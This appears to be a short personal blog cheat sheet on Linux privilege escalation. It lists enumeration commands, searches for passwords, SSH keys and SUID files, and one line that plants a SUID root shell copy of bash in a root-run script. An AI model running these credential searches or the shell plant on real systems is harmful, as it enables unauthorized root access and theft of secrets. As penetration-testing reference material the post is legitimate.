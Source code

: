 ```yaml
---
title: Linux Privelege Escalation
date: "2022-03-21T00:00:00.000Z"
---
```


 📈 Recently I conducted some user privelege test / check in my Linux host machine here are the commands I used and useful resources.


###### Check Kernel Version 
```uname -a```

###### Check distro version
```cat /proc/version```

###### Check all the services running by root and check other services that running by different users
```ps aux | grep root```

###### Check what you can run as SUDO
```sudo -l```

###### Check all the users
```cat /etc/passwd```

###### Check history
```history```

###### Check all the connection
```netstat -ano```

###### Find no root Squashing, all the file you will be putting there will execute it as root
```cat /etc/exports```

###### Find any SUID
```find / -perm -u=s -type f 2>/dev/null```

###### Look for any password
```grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null```

###### Check shadow and passwd permission
```ls -la /etc/passwd```
```ls -la /etc/shadow```

###### Check capabilities
```getcap -r / 2>/dev/null```

###### Check schedulers and pay attention on the file permission, PATH and location if you can overwrite the file
```cat /etc/crontab```
```systemctl list-timers --all```

###### If this command is executed by root it will create file /tmp/bash  and if it execute by /tmp/bash -p it will create a shell root
```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> file.sh```

###### Look for any confidential files
```find / -name "id_rsa" 2> /dev/null```
```find / -name "authorized_keys" 2> /dev/null```
```find / -name "pass*" 2> /dev/null```

###### Use automated tools
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
https://github.com/mzet-/linux-exploit-suggester
https://github.com/sleventyeleven/linuxprivchecker
https://gtfobins.github.io/

